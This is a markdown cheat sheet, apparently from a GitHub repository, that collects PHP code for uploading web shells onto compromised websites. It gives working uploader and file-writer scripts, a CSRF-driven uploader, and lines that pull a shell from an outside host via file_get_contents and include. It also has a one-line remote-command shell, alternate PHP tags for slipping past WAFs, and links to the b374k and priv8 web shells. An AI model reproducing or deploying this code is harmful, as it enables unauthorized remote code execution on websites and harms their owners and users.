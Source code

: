 # PHP Shell Uploading Scripts and Bypass
### Uploader
1. Normal File Uploader
>

    <?php 
        echo 'Uploader<br>';
        echo '<form action="" method="post" enctype="multipart/form-data">';
        echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" value="Upload"></form>';
        if( $_POST['_upl'] == "Upload" ) {
            if(copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) {
                echo '<b>Success</b><br><br>';
            }else {
                echo '<b>Failed</b><br><br>'; 
            }
	}
    ?>

2. CSRF File Uploader

>This uploader bypasses content length if the normal file uploader code is too long. To access this, open the file where you save it and do a CSRF with POST file value of `file`.

	
    <?php
    	copy($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    ?>
> This saves your file to the same directory of the uploader.    
3. File Get Contents


    <?php
    	file_put_contents(file_get_contents('https://somesite.com/shell.txt'),'shell.php');
    ?>
> Will work if `allow_url_fopen` is on. Upload this as up.php then open it. It will automatically generate a file named shell.php on the same directory.

4. File Writer ([link](https://github.com/alita-ido/PHP-File-Writer))
>If you managed to make a file uploader but it doesn't work, maybe the site does not allow uploading. Some sites don't enable upload functions, hence `move_uploaded_files` and `copy_uploaded_files` will not work. File writer works by using different command (`fwrite`).


	<?php
    	$a = $_POST['code'];
        $file = fopen($_POST['file'],'w');
        fwrite($file,$a);
        fclose($file);
	?>
    <center>
      <form method="post" id="form">
        <h2>File Writer</h2>
        File Name<br><input type="text" name="file" placeholder="shell.php"><br>
        Shell Code<br><textarea name="code" form="form" placeholder="Paste your shell here"></textarea><br>
        <input type="submit" value="Write">
      </form>
    </center>
If all of the above fails or is blocked by WAF, try using other php notations.

a. `<?php echo 'sample'; ?>` - normal one

b. `<? echo 'sample'; ?>` - will work if short_open_tag is enabled

c. `<% echo 'sample'; %>` - PHP < 7.0.0

d. `<script language="php"> echo 'sample'; </script>` - PHP < 7.0.0

### Shell Codes I use
1. [b374k](http://www.topshellv.com/shell/b374k-shell)
> This shell is large >900kb. The size is large which gives room to more functionality. But more functionality means more functions used, and more functions used results to more `DISABLE_FUNCTIONS` which might result again to error in shell or blocked by WAF.

2. [RBBD priv8 shell](https://github.com/iamhex/Priv8-Shell-v3)
> I think this is a "so called" bypass shell.It is light weight, around ~70kb. I think it is based on wso.php web shell

3. [b374k-mini](https://github.com/The404Hacking/b374k-mini/)
> File size is ~14kb and bypasses as well some WAFs while uploading

4. RCE shell
> I use this when we need to  upload a shell with very small file size

	<?=`$_GET[1]`?>
> This is a shorthand notation for `<?php echo shell_exec($_GET['1']);?>`. But note that this only works if `shell_exec` is not in the `DISABLE_FUNCTIONS` in phpinfo. To access this, just /shell.php?1=whoami

5. Include
> Used for bypassing file size as well due to its small size.

	<?php include('https://somewebshell.com/shell.txt');?>
    
> This will work only if `allow_url_include` is not in the `DISABLE_FUNCTIONS` in phpinfo.
